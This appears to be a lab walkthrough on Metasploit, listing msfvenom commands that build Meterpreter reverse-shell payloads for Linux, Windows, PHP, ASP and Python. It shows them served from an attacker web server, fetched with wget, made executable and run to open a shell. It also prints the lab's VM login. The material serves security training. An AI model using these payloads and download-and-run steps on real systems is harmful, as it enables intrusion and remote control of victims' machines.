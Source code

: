 You may need to edit the generated file depending on your situation. For instance, the PHP tag might be commented out in PHP exploit code. You'll have to add it in if that's the case with `nano`.

To receive incoming connections, run `use exploit/multi/handler` from within Metasploit. The multi handler can be used for all Metasploit payloads, Meterpreter, and regular shells. To use it, set the payload value (this will be based on whatever you generated with `msfvenom`), the LHOST, and the LPORT values. Then `run` the handler and wait for the incoming connection. When the reverse shell is triggered, the connection will be received by the multi handler and give us a shell.

Based on the target system configuration, `msfvenom` can be used to create payloads in almost all formats. Here are some common examples:
- Executable and Linkable Format, ELF: `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf` --> this is similar to `.exe` files in Windows. These are executable files for Linux, but you need to make sure that they're executable on the target machine (i.e., by using `chmod +x`). Then you can run it with `./(ELF_FILE)`.
- Windows: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`
- PHP: `msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`
- ASP: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`
- Python: `msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`

These are all reverse payloads, so you need to have the multi handler working on the attacker machine, set with the correct parameters. The required values - payload, LHOST, LPORT - will be the same you set when creating the `msfvenom` payload.

Let's try it! We'll start the third VM. The username is `murphy` and the password is `1q2w3e4r`. It'll start in Split-Screen View, though you can use SSH if you'd like. In the terminal, you can type `sudo su` to get a root shell.

![image](https://github.com/user-attachments/assets/c87c5db4-71db-4ab7-ab84-78f9ffaa26c1)

We'll create a payload with `msfvenom`. It specifically needs to be in ELF format, so we can use the format described above, replacing the LHOST with the target machine IP and the LPORT with a port like `4444`.

![image](https://github.com/user-attachments/assets/58d92166-6e5a-46d1-9c4c-84c49f234f77)

From there, we start a Python web server with `python3 -m http.server 9000`. This will allow us to transfer the reverse shell we created:

![image](https://github.com/user-attachments/assets/638fcbd5-8a82-43d1-ac05-d443b7af1de2)

...and on the VM we run `wget http://(ATTACKING_MACHINE_IP):9000/rev_shell.elf` to download it.

![image](https://github.com/user-attachments/assets/ea7ba3e5-8add-4edf-89f4-99404a21475a)

We'll need to start the multi handler on our machine. We can stop the Python web server once the file was transferred. We set the settings in Metasploit as we did before and then run the handler:

![image](https://github.com/user-attachments/assets/fb2539b5-00d4-4f06-be8b-59e3177b2d2f)

Then we run the exploit code in the other VM. We have to use `chmod +x rev_shell.elf` first, and then run `./rev_shell.elf` to start the exploit code. You may need to have the other VM in a separate window by clicking the "View in Full Screen" button in order for Meterpreter to work.
